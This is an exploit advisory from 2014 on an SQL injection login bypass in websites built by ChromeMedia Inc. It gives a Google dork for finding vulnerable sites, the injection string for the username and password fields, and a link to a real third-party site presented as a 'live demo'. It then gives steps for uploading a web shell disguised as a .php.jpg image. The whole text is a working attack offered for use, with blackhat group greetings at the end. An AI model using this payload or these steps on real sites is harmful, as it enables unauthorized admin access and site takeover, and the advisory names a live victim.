 # Web Design by ChromeMedia Inc SQL Injection Vulnerability

* Exploit Title        : Web Design by ChromeMedia Inc SQL Injection Vulnerability
* Google Dork          : - intext:Web Design by ChromeMedia Inc | "Explore Your Brain !!"
* Date                 : 16/06/2014
* Exploit Author       : Fathur Freakz ft Barrabravaz
* Vendor Homepage      : http://www.chromemedia.com
* Version              : -
* Tested on            : Windows, Linux, Mac

## Author will be not responsible for any damage
* Issue: SQL Injection Bypass Login
* Risk level: High

> The remote attacker has the possibility to manage the website.
> The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/manage/login.php

##### Username :  ' or 1=1 limit 1 -- -+
##### Password :  ' or 1=1 limit 1 -- -+

## LIVE DEMO
> http://www.kwdoor.com/manage/login.php

## How
* Login > Site Pages > [ Company Profile ] > Upload Photo
* Upload shell with  shell.php.jpg

## Thanks To
* Bang Galih
* Beb Hafid
* Yoga Harvananda
* Mas Nico
* Nindya
* Yogyakarta still BlackHat
* SunDi3yansyah
* And You

## Developer
* SurabayaBlackHat
* YogyakartaBlackHat
